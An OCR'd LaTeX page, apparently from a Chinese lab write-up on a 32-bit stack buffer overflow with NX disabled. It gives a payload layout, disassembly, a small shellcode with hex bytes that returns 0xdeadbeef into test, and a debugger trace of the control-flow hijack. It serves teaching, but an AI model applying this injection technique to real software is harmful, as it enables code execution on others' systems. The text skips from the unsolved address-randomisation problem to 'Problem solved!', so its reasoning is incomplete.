 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
但是如果我们主动在gcc编译中关闭NX保护，那我们就可以得到一个RWX段，也就是同时有读、写、执行权限的段，栈。

这时我们可以考虑将shellcode写在栈上，然后劫持控制流到shellcode的开始处。这时Payload应具有下面的结构：

\begin{lstlisting}[style=DOS]
    shellcode + padding + ebp + shellcode's start addr
\end{lstlisting}

第二个问题出现了。shellcode写在栈上，虽然我们可以通过关闭NX保护将shellcode从不可执行变成可执行，但是我们并不知道shellcode的地址。每次我们运行程序的时候，内核都会随机加载程序的地址空间。

Problem solved！那就让我们随便试两条汇编指令吧！

\begin{lstlisting}[style=DOS]
    080492ae <test>:
    80492ae:	55                   	push   ebp
    80492af:	89 e5                	mov    ebp,esp
    80492b1:	53                   	push   ebx
    80492b2:	83 ec 14             	sub    esp,0x14
    80492b5:	e8 26 fe ff ff       	call   80490e0 <__x86.get_pc_thunk.bx>
    80492ba:	81 c3 46 2d 00 00    	add    ebx,0x2d46
    80492c0:	83 ec 0c             	sub    esp,0xc
    80492c3:	8d 83 08 e0 ff ff    	lea    eax,[ebx-0x1ff8]
    80492c9:	50                   	push   eax
    80492ca:	e8 81 fd ff ff       	call   8049050 <printf@plt>
    80492cf:	83 c4 10             	add    esp,0x10
    80492d2:	e8 b1 ff ff ff       	call   8049288 <getbuf>
    80492d7:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
    80492da:	83 ec 08             	sub    esp,0x8
    80492dd:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
    80492e0:	8d 83 19 e0 ff ff    	lea    eax,[ebx-0x1fe7]
    80492e6:	50                   	push   eax
    80492e7:	e8 64 fd ff ff       	call   8049050 <printf@plt>
    80492ec:	83 c4 10             	add    esp,0x10
    80492ef:	90                   	nop
    80492f0:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
    80492f3:	c9                   	leave  
    80492f4:	c3                   	ret
\end{lstlisting}

\begin{lstlisting}[language={[x86masm]Assembler}]
    mov eax, 0xdeadbeef
    push 0x80492d7
    ret ; or you can simply jmp :)
    ;B8EFBEAD DE68D792 0408C300 00000000 00000000 00000000 EBP ADDR
\end{lstlisting}

\begin{lstlisting}[style=DOS]
    0x80492a7  <getbuf+31>    mov    eax, 1
    0x80492ac  <getbuf+36>    leave  
    0x80492ad  <getbuf+37>    ret    
     ↓
    0xffffd380                mov    eax, 0xdeadbeef
  ► 0xffffd385                push   test+41                       <0x80492d7>
    0xffffd38a                ret    
     ↓
    0x80492d7  <test+41>      mov    dword ptr [ebp - 0xc], eax
    0x80492da  <test+44>      sub    esp, 8
    0x80492dd  <test+47>      push   dword ptr [ebp - 0xc]
    0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
    0x80492e6  <test+56>      push   eax
\end{lstlisting}
\end{document}
